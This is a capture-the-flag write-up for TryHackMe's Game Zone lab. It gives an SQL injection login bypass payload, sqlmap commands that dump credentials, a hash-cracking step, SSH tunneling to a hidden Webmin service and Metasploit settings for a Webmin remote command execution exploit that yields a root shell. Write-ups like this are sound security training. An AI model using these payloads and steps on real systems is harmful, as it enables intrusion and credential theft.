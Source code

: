 ```yaml
---
title: "TryHackMe - Game Zone"
author: Nasrallah
description: ""
date: 2022-08-09 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, sqli, sqlmap, crack, john, tunneling, rce]
img_path: /assets/img/tryhackme/gamezone
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Game Zone](ttps://tryhackme.com/room/gamezone) from [TryHackMe](https://tryhackme.com). The machine is running a website vulnerable to sql injection, we use `sqlmap` to get a hash and a username, we crack the hash for a password and use the credentials to login via ssh. Once we're in, we found a service listening on an odd port and can't be accessed from outside the target machine. For that, we use ssh tunneling to access the service and found out it's vulnerable to rce. We exploit the vulnerability and get root access. 

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.26.156                                                                                                                            
Host is up (0.097s latency).                                                                                                                                 
Not shown: 998 closed tcp ports (reset)                                                                                                                      
PORT   STATE SERVICE VERSION                                                                                                                                 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)                                                                            
| ssh-hostkey:                                                                                                                                               
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)                                                                                               
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)                                                                                              
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)                                                                                            
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                          
| http-cookie-flags:                                                                                                                                         
|   /:                                                                                                                                                       
|     PHPSESSID:                                                                                                                                             
|_      httponly flag not set                                                                                                                                
|_http-title: Game Zone                                                                                                                                      
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open port, 22 running ssh and 80 running Apache http server.

### Web

Let's navigate to the webserver.

![](1.png)

This page has a login form, we can try some default credentials, but trying sqlinjection with this payload `' or 1=1 -- -` let's us in immediately.

![](2.png)

There is a search section, but doesn't give us much.

Since we managed to login using sql injection, let's see if this search function is also vulnerable to that.

Let's use `sqlmap` and see if it can find the vulnerability.

```bash
sqlmap -u 'http://10.10.26.156/portal.php' --forms --batch --cookies "PHPSESSID=2d88lasp16948fp441r98hcn93"
```

![](7.png)

Sqlmap confirms there is a sqlinjection vulnerability and identified the back-end DBMS as `mysql`.

Now let's dump DBMS database table entries by adding the `--dump` option.

```bash
sqlmap -u 'http://10.10.26.156/portal.php' --forms --batch --cookies "PHPSESSID=2d88lasp16948fp441r98hcn93 --dump
```

![](8.png)

Great! We got a password hash for user `agent47`.

## **Foothold**

Using `hash-identifier` we found that it's `SHA256` hash. Let's use john and crack the hash.

![](9.png)

We can login to the target via ssh now that we have the password.

## **Privilege Escalation**

If we check our privileges as `agent47` we find that we can do anything.

Listing the listening port on the machine with the command `netstat -tlpn` we find the following.

![](10.png)

There a service listening on port 10000 and we can't access it from outside the machine.

We can solve that problem using [ssh tunneling](https://www.hackingarticles.in/comprehensive-guide-on-ssh-tunneling/)

Executing the following command enables us to access that service on our attacking machine.

```bash
ssh -L 8000:0.0.0.0:10000 [agent47@10.10.41.70](mailto:agent47@10.10.41.70) -F
```

>We execute the above command on our attacking machine.

Now if we navigate to `http://127.0.0.1:8000` we see the following.

![](3.png)

It's a login page for `Webmin`. Let's try login as agent47 and supply the password we cracked.

![](4.png)

We logged in successfully and found webmin running on version `1.580`. Let's search for exploit for this version.

```bash
$ searchsploit webmin 1.580
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                      | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                              | linux/webapps/47330.rb
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This version of webmin is vulnerable to RCE. There is metasploit module for that so let's start metasploit.

The name of the exploit module is `unix/webapp/webmin_show_cgi_exec` and we need to set the following options before running it.

```bash
set password videogamer124
set username agent47
set rhosts 127.0.0.1
set rport 8000
set ssl false
set lhost tun0
```

Now enter `run` or `exploit` to run the exploit.

![](5.png)

Great! We go a shell as root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

[https://www.hackingarticles.in/comprehensive-guide-on-ssh-tunneling/](https://www.hackingarticles.in/comprehensive-guide-on-ssh-tunneling/)